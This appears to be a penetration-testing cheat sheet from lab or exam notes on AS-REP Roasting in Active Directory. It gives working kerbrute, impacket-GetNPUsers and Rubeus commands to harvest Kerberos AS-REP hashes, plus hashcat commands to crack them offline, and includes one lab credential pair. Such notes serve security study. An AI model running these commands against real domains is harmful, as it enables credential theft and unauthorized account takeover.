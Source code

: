 # AS-REP Roasting

Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response. This attack is known as [_AS-REP Roasting_](https://harmj0y.medium.com/roasting-as-reps-e6179a65216b).

## Linux

Veryify usernames with kerbrute:

{% code overflow="wrap" %}
```shell
kerbrute -domain hutch.offsec -users ./users.txt -dc-ip 192.168.219.122
```
{% endcode %}

On Kali, we can use [**impacket-GetNPUsers**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) to perform AS-REP roasting:

{% code overflow="wrap" %}
```sh
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```
{% endcode %}

* **-dc-ip:** IP address of the domain controller
* **-outputfile:** name of the output file (contains AS-REP hash)
* **-request:** request the TGT
* **domain/user:** use the user needed for authentication and enter their password when prompted

Extract AS-REP hashes with credentials:

{% code overflow="wrap" %}
```
impacket-GetNPUsers hutch.offsec/fmcsorley:CrabSharkJellyfish192 -dc-ip 192.168.219.122
```
{% endcode %}

Use a username list to extract AS-REP hashes:

{% code overflow="wrap" %}
```sh
impacket-GetNPUsers thm.corp/ -usersfile CorpUsers.txt -dc-ip 10.10.96.178 -outputfile asrep_hashes.txt
```
{% endcode %}

## Windows

[_Rubeus_](https://github.com/GhostPack/Rubeus) is a toolset for raw Kerberos interactions and abuses.

As a pre-authenticated domain user: don't have to provide any other options to Rubeus except **asreproast.** Rubeus will automatically identify vulnerable user accounts

```sh
.\Rubeus.exe asreproast /nowrap
```

* **/nowrap:** prevent new lines being added to the AS-REP hashes

## Crack the hash

Find the correct hashcat mode for the AS-REP hash:&#x20;

```sh
hashcat --help | grep -i "Kerberos"
```

Crack the hash:

{% code overflow="wrap" %}
```sh
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
